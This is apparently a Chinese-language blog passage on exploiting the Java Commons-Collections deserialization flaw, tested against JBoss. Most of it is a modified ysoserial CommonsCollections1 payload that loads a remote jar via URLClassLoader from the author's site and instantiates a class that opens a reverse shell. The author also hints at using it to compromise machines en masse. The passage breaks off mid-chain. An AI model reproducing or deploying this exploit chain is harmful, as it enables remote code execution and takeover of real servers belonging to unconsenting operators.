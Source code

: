 漏洞原理什么的在上面已经分析过了,网上的POC都是调用RunTime.getRuntime().exec(“cmdxx”),很多人在问这个漏洞执行命令后能不能回显,对于回显,其实就是想办法拿到容器的response,但是非常遗憾,我在对jboss进行测试时并未找到一种方式可以获取当当前请求的response,其他容器就不清楚了,理论上只要找到一个方法可以获取到当前请求的response,那么回显就搞定了,期待有大牛来实现。

到目前为止,我们只能通过反射的方式来进行函数调用,如果要实现复杂的功能,估计构造POC会把人折磨死,所以是不是有一种通用的方法去加载我们的payload呢。

在java中有个URLClassLoader类,关于该类的作用大家自己去百度,简单说就是远程加载class到本地jvm中,说到这,我想稍微明白一点的就知道怎么做了,这里不废话了,文章写得累死了,直接给出POC吧,至于具体怎么利用,如何实现抓鸡等,明白人自然就明白。

**反弹shell**

反弹shell的原理,通过classload从我博客远程加载一个[http://www.isiwn.org/attach/iswin.jar文件,然后进行实例化,博客上的jar文件里面包含了反弹shell的脚本,将类加载到本地后实例化实例化时在构造方法中执行反弹shell的payload。](http://www.isiwn.org/attach/iswin.jar%E6%96%87%E4%BB%B6%EF%BC%8C%E7%84%B6%E5%90%8E%E8%BF%9B%E8%A1%8C%E5%AE%9E%E4%BE%8B%E5%8C%96%EF%BC%8C%E5%8D%9A%E5%AE%A2%E4%B8%8A%E7%9A%84jar%E6%96%87%E4%BB%B6%E9%87%8C%E9%9D%A2%E5%8C%85%E5%90%AB%E4%BA%86%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E8%84%9A%E6%9C%AC,%E5%B0%86%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%88%B0%E6%9C%AC%E5%9C%B0%E5%90%8E%E5%AE%9E%E4%BE%8B%E5%8C%96%E5%AE%9E%E4%BE%8B%E5%8C%96%E6%97%B6%E5%9C%A8%E6%9E%84%E9%80%A0%E6%96%B9%E6%B3%95%E4%B8%AD%E6%89%A7%E8%A1%8C%E5%8F%8D%E5%BC%B9shell%E7%9A%84payload%E3%80%82)

**直接上代码**

LazyMap的实现方式

我已经对网上的poc进行了修改,修改的更加容易阅读,方便大家学习。



```
package ysoserial.payloads;
import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
public class CommonsCollections1`{`
public InvocationHandler getObject(final String ip) throws Exception `{`
// inert chain for setup
final Transformer transformerChain = new ChainedTransformer(
new Transformer[] `{` new ConstantTransformer(1) `}`);
// real chain for after setup
final Transformer[] transformers = new Transformer[] `{`
new ConstantTransformer(java.net.URLClassLoader.class),
// getConstructor class.class classname
new InvokerTransformer("getConstructor",
new Class[] `{` Class[].class `}`,
new Object[] `{` new Class[] `{` java.net.URL[].class `}` `}`),
// newinstance string http://www.iswin.org/attach/iswin.jar
new InvokerTransformer(
"newInstance",
new Class[] `{` Object[].class `}`,
new Object[] `{` new Object[] `{` new java.net.URL[] `{` new java.net.URL(
"http://www.iswin.org/attach/iswin.jar") `}` `}` `}`),
// loadClass String.class R
new InvokerTransformer("loadClass",
new Class[] `{` String.class `}`, new Object[] `{` "R" `}`),
// set the target reverse ip and port
new InvokerTransformer("getConstructor",
new Class[] `{` Class[].class `}`,
```